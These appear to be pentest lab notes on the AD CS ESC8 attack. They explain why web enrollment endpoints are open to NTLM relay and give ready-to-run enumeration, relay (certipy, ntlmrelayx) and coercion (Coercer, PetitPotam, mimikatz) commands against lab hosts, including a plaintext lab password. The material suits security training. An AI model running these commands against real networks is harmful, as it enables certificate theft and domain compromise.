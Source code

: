 ## ESC8 NTLM Relay ANY domain computer to AD CS HTTP Endpoints ##

#### What's running under the hood ####
- AD CS enables users and computers to enroll using HTTP(S) endpoints through multiple server roles like:
	- HTTP - Web Enrollment (HTTP)
	- HTTPS - Certificate Enrollment Web Service (CES), Certificate Enrollment Policy Web Service, Network Device Enrollment Service (NDES)

#### What the attack is about ####
- The web enrollment interfaces used by the above roles are vulnerable to NTLM relay attacks in their default configurations.
- Using NTLM relay, an attacker on a **compromised machine can impersonate any inbound-NTLM-authenticating AD account**.
- While impersonating the compromised account, an attacker could access these web interfaces and request a client authentication certificate based on the **User** or **Machine** certificate templates.
- The **web enrollment interface** (an older looking ASP application accessible at `http://<caserver>/certsrv/`), by default only supports HTTP, which cannot protect against NTLM relay attacks. In addition, it explicitly only allows NTLM authentication via its Authorization HTTP header, so more secure protocols like Kerberos are unusable.
- The **Certificate Enrollment Service (CES)**, **Certificate Enrollment Policy (CEP) Web Service**, and **Network Device Enrollment Service (NDES)** support negotiate authentication by default via their Authorization HTTP header. Negotiate authentication support Kerberos and NTLM; consequently, an attacker can negotiate down to NTLM authentication during relay attacks. These web services do at least enable HTTPS by default, but unfortunately HTTPS by itself does not protect against NTLM relay attacks. Only when HTTPS is coupled with channel binding can HTTPS services be protected from NTLM relay attacks. Unfortunately, AD CS does not enable Extended Protection for Authentication on IIS, which is necessary to enable channel binding.

### Enumeration ###
1. **Certify** (not always reliable)
`PS C:\ADCS\Auditor> .\Certify.exe cas`

2. **certutil**
`PS C:\ADCS\Auditor> certutil.exe -enrollmentServerURL -config cb-ca.cb.corp\CB-CA`

3. **PSPKI**
```powershell
PS C:\ADCS\Auditor> Import-Module PSPKI
PS C:\ADCS\Auditor> Get-CertificationAuthority | select Name,Enroll* | Format-List *
```

### Exploitation ###
##### Listener for incoming certificates #####
1. **Certipy**
- By default, Certipy will request a certificate based on the `Machine` or `User` template depending on whether the relayed account name ends with `$`. It is possible to specify another template with the `-template` parameter.
- For domain controllers, we must specify `-template DomainController`.
```bash
┌──(root💀0xDe4dBe3f)-[/home/pri3st/Pentesting/AlteredSecurity/CESP-ADCS]
└─# certipy relay -ca cb-ca.cb.corp
```

2. **Impacket-NTLMRelayx**
```bash
┌──(root💀0xDe4dBe3f)-[/home/pri3st/Pentesting/AlteredSecurity/CESP-ADCS]
└─# impacket-ntlmrelayx.py -t http://cb-ca.cb.corp/certsrv/certfnsh.asp -smb2support --adcs --template 'DomainController'
```

##### Coercion ####
1. **Coercer** (useful if patches have been applied)
```bash
┌──(root💀0xDe4dBe3f)-[/home/pri3st/Pentesting/AlteredSecurity/CESP-ADCS]
└─# python3 Coercer.py coerce -l cb-ws33.certbulk.cb.corp -t cb-dc.certbulk.cb.corp -u student33 -p htTz2J72nH9KuAXr -d certbulk.cb.corp -v --filter-method-name "EfsRpcDuplicateEncryptionInfoFile"
```

2. **PetitPotam**
```powershell
PS C:\ADCS\Auditor> .\PetitPotam.exe 172.16.100.33 172.16.67.1
```

3. **PetitPotam.ps1**
```powershell
PS C:\ADCS\Auditor> Import-Module .\Invoke-Petitpotam.ps1
PS C:\ADCS\Auditor> Invoke-Petitpotam -Target 172.16.67.1 -CaptureHost 172.16.100.33
```

4. **Mimikatz**
```powershell
PS C:\ADCS\Auditor> .\mimikatz.exe "misc::efs /server:cb-dc.certbulk.cb.corp /connect:172.16.100.33"
```